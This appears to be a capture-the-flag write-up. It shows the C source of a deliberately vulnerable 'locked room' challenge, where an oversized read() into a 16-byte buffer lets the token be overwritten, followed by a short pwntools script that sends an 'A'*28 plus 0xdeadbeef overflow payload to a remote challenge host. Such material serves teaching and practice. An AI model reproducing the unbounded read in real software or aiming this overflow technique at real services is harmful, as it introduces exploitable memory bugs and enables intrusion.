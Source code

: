 
#
```


```

#
```
#include"stdio.h"
#include"stdlib.h"

void printTheKey(){
  /*
   *
   * print the key
   *
   */
}

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  int token = 1234;
  char key[16];

  printf("Billy left his key in the locked room.\n");
  printf("However, he forgot the token of the room.\n");
  printf("Do you know what's the key?");

  read(0, key, 40);

  if((int)token == 0xdeadbeef){
    printf("Door open. OwO\n");
    printTheKey();
    system("cat /home/ctf/flag");
  }else{
    printf("Cannot open door. QwQ\n");
  }

  return 0;
}
```
```
# 1-1c pass
```
# nc 120.114.62.213 6125
from pwn import *

#r = process('./pass')
r = remote('120.114.62.213', 6125)

payload = 'A'*28

r.sendline(payload + p64(0xdeadbeef))

r.interactive()
```
```
